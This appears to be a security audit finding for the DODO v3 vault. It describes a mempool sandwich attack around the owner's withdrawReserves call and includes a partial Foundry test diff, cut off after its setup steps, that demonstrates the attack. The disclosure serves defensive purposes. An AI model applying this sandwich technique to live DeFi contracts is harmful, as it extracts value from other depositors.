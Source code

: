 # Issue H-1: User can perform sandwich attack on withdrawReserves for profit 

Source: https://github.com/sherlock-audit/2023-06-dodo-judging/issues/22 

## Found by 
dirk\_y, kutugu
## Summary
A malicious user could listen to the mempool for calls to `withdrawReserves`, at which point they can perform a sandwich attack by calling `userDeposit` before the withdraw reserves transaction and then `userWithdraw` after the withdraw reserves transaction. They can accomplish this using a tool like flashbots and make an instantaneous profit due to changes in exchange rates.

## Vulnerability Detail
When a user deposits or withdraws from the vault, the exchange rate of the token is calculated between the token itself and its dToken. As specified in an inline comment, the exchange rate is calculated like so:

```solidity
// exchangeRate = (cash + totalBorrows -reserves) / dTokenSupply
```

where `reserves = info.totalReserves - info.withdrawnReserves`. When the owner of the vault calls `withdrawReserves` the withdrawnReserves value increases, so the numerator of the above formula increases, and thus the exchange rate increases. An increase in exchange rate means that the same number of dTokens is now worth more of the underlying ERC20.

Below is a diff to the existing test suite that demonstrates the sandwich attack in action:

```diff
diff --git a/new-dodo-v3/test/DODOV3MM/D3Vault/D3Vault.t.sol b/new-dodo-v3/test/DODOV3MM/D3Vault/D3Vault.t.sol
index a699162..337d1f5 100644
--- a/new-dodo-v3/test/DODOV3MM/D3Vault/D3Vault.t.sol
+++ b/new-dodo-v3/test/DODOV3MM/D3Vault/D3Vault.t.sol
@@ -233,6 +233,47 @@ contract D3VaultTest is TestContext {
         assertEq(d3Vault.getTotalDebtValue(address(d3MM)), 1300 ether);
     }
 
+    function testWithdrawReservesSandwichAttack() public {
+        // Get dToken
+        (address dToken2,,,,,,,,,,) = d3Vault.getAssetInfo(address(token2));
+        
+        // Approve tokens
+        vm.prank(user1);
+        token2.approve(address(dodoApprove), type(uint256).max);
+        vm.prank(user2);
+        token2.approve(address(dodoApprove), type(uint256).max);
+        vm.prank(user2);
+        D3Token(dToken2).approve(address(dodoApprove), type(uint256).max);
+
+        // Set user quotas and mint tokens
+        mockUserQuota.setUserQuota(user1, address(token2), 1000 ether);
+        mockUserQuota.setUserQuota(user2, address(token2), 1000 ether);
+        token2.mint(user1, 1000 ether);
+        token2.mint(user2, 1000 ether);
+
+        // User 1 deposits to allow pool to borrow
+        vm.prank(user1);
+        d3Proxy.userDeposit(user1, address(token2), 500 ether);
+        token2.mint(address(d3MM), 100 ether);
+        poolBorrow(address(d3MM), address(token2), 100 ether);
```